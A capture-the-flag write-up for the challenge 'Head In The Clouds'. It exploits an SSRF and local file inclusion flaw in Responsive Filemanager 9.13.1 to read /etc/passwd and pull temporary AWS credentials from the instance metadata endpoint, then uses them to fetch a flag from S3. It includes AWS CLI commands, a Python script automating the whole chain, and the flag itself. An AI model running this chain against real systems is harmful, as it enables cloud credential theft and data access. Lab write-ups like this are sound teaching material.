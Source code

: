 # Head In The Clouds

Challenge Author: Arne Swinnen

Challenge files: https://s3-eu-west-1.amazonaws.com/be.cscbe.challenges.2021/headintheclouds_17ff529a880917fca4dbbaeb52995f40/responsive_filemanager_fixed.zip

# Writeup


1.	Browsing directly to the Flag URL yields Access Denied:

![writeup](/img/Picture1.png)


2.	By investigating the Docker container, we can see the web application is an instance of the Responsive Filemanager version 9.13.1:

![writeup](/img/Picture2.png)

 
3.	Some googling highlights a Server-Side Request Forgery & Local File Inclusion vulnerability in this exact version: https://www.exploit-db.com/exploits/45103 . This is clearly a vulnerability in the Upload section. Notice that this PoC also references metadata URL http://169.254.169.254/openstack: 

 ![writeup](/img/Picture13.png)

4.	Visiting the hosted web application, we can effectively enter URL file:///etc/passwd and hereafter download this file from the dashboard. However, this isn’t helpful for the challenge, as the flag is not hosted in the Docker container but on an external AWS S3 bucket:


 
![writeup](/img/Picture3.png)
![writeup](/img/Picture4.png)
 

 
5.	Entering the flag’s URL unfortunately results in Access Denied:
  

![writeup](/img/Picture5.png)
![writeup](/img/Picture6.png)
 
6.	However, since the Docker is also hosted on AWS, the AWS Metadata endpoint at http://169.254.169.254/latest/meta-data/iam/security-credentials/ is also reachable. After entering this URL, we indeed get a JSON file back mentioning role “cscbe2020challengearneswinnen”:

![writeup](/img/Picture7.png)
![writeup](/img/Picture8.png)

 
7.	Requesting file http://169.254.169.254/latest/meta-data/iam/security-credentials/cscbe2020challengearneswinnen yields temporary AWS credentials:

![writeup](/img/Picture9.png)
![writeup](/img/Picture10.png) 

 
8.	By using these temporary credentials in the correct manner, we can now copy the flag.txt file from the target S3 bucket to our own machine with the AWS CLI and read out the flag:

![writeup](/img/Picture11.png)

```
# export AWS_ACCESS_KEY_ID=XXX
# export AWS_SECRET_ACCESS_KEY=YYY
# export AWS_SESSION_TOKEN=ZZZ
# aws s3 ls s3://cscbe2020challengearneswinnen
# aws s3 cp s3://cscbe2020challengearneswinnen/flag.txt . 
# cat flag.txt
```

 
 
9.	The python3 script below automates exploitation and cleans up as well. It returns the flag in case of success and errors otherwise, hence allowing you to use this to poll the challenge to confirm it’s still working: 

```python
import argparse
import requests
import boto3

parser = argparse.ArgumentParser(description='CSCBE2020ChallengeArneSwinnen PoC')
parser.add_argument("--target", required=True, type=str, help="Target URL (e.g. http://ec2-18-185-136-255.eu-central-1.compute.amazonaws.com:8080")
args = parser.parse_args()

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

s = requests.Session()
# s.proxies.update(proxies)
s.get(args.target + "/filemanager/dialog.php")
r1 = s.post(args.target + "/filemanager/upload.php", data = {"fldr":"","url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/cscbe2020challengearneswinnen"})
r2 = s.get(r1.json()['files'][0]['url'])
s.post(args.target + "/filemanager/execute.php?action=delete_file", data = {"name":"","path":r1.json()['files'][0]['name']})

s3_resource = boto3.resource(
    's3',
    aws_access_key_id=r2.json()["AccessKeyId"],
    aws_secret_access_key=r2.json()["SecretAccessKey"],
    aws_session_token=r2.json()["Token"]
)

obj = s3_resource.Object('cscbe2020challengearneswinnen', 'flag.txt')
body = obj.get()['Body'].read()

if body.decode("utf-8") == "CSC{MasterOfTheClouds}":
	print(body.decode("utf-8"))
	exit(0)
else:
	exit(1)
```
